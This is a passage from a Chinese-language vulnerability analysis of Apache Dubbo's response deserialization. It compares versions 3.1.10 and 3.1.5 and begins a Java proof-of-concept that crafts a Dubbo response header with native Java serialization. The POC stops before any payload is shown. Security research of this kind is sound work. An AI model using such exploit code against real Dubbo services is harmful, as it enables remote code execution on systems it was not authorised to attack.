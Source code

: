 而对于 3.1.10 版本，`getRequestData` 方法如果获取不到 `future` 会直接抛出异常，进而无法创建出有效的 `DecodeableRpcResult` 实例。  
[![](assets/1703064279-cda034224f77c1da8af7bc7b03dfe4d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231219144004-7140a1bc-9e39-1.png)  
进而，后续 `message` 参数会由于是 null 而直接返回。  
[![](assets/1703064279-345528adf178318f562fd6daf4e5af6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231219144025-7dae45e4-9e39-1.png)  
这里给出 3.1.5 版本下的测试 POC 核心部分：

```bash
public static void main(String[] args) throws Exception {

        ByteArrayOutputStream boos = new ByteArrayOutputStream();
        ByteArrayOutputStream nativeJavaBoos = new ByteArrayOutputStream();
        Serialization serialization = new NativeJavaSerialization();
        NativeJavaObjectOutput out = new NativeJavaObjectOutput(nativeJavaBoos);

        // header.
        byte[] header = new byte[HEADER_LENGTH];
        // set magic number.
        Bytes.short2bytes(MAGIC, header);
        // set request and serialization flag.
        header[2] = serialization.getContentTypeId();

        header[3] = Response.OK;
        Bytes.long2bytes(1, header, 4);

        // result
```